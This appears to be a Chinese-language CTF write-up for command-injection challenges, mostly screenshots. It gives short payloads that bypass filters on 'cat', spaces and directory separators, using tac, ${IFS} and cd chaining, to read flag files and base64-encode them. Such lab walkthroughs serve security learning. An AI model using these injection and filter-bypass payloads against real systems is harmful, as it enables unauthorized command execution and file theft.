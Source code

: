 ![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736925126058-c6ba71c4-fb7d-4fd7-94a1-f35d2abb46e6.png)

解码

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736925183830-39e0ea4b-82b5-4208-8767-2c4a030e26d6.png)

## 过滤 cat
```php
;ls
;tac flag_57202333513255.php | base64
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736925503731-02ba4ca5-2949-433c-a897-60df69cc701e.png)

解码

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736925531890-5ad1440a-4dd3-43d8-818b-96177b90a3cf.png)

## 过滤空格
![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736929430239-d00afe8a-17b3-46f3-ada0-ab41616fd366.png)

```php
;ls
;cat${IFS}flag_320502311823104.php${IFS}|${IFS}base64
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736929532336-34e392fe-e4ba-4bbd-a740-b428c1611200.png)

解码

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736929997953-7a0cab5c-94c3-4a24-b99f-1e0139df7758.png)

##  过滤目录分隔符  
> 使用 cd 命令
>

```php
;ls
;cd flag_is_here;ls
;cd flag_is_here;cat flag_87731798816231.php | base64
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736929800343-c568cc78-0aa8-4105-9e29-8995bc0f9f4c.png)

解码

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736929822273-eaf1a1bc-64b2-4f19-9df4-c29c76ee0db2.png)

## 过滤运算符
![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736930078528-6718edc5-f172-43f9-a976-bf71f48602b0.png)
